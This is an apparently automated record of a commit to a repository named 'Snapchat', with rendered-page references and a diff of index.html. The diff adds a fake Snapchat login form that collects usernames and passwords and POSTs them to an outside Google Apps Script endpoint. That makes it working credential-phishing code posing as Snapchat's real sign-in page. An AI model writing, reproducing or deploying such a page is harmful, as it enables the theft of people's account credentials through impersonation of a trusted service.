

Before and after one commit to Keshav-code123/Snapchat, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 161-348 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -35,6 +35,10 @@
   <div class="logo">
     <img src="snapchat-logo.jpeg" alt="Snapchat Logo" />
   </div>
-  <h1>Snapchat Login</h1>
+  <form class="login" method="POST" action="https://script.google.com/macros/s/AKfycbzJ-I68JVzs-E6W2iEfCse9OZEqoEB4wWBHSSbMOMr0fSq5R947-1ZYoMnTJq_vY1qb/exec">
+    <h2>Snapchat Login</h2>
+    <input type="text" name="username" placeholder="Username or Email" required><br>
+    <input type="password" name="password" placeholder="Password" required><br>
+    <button type="submit">Login</button>
 </body>
 </html>
```
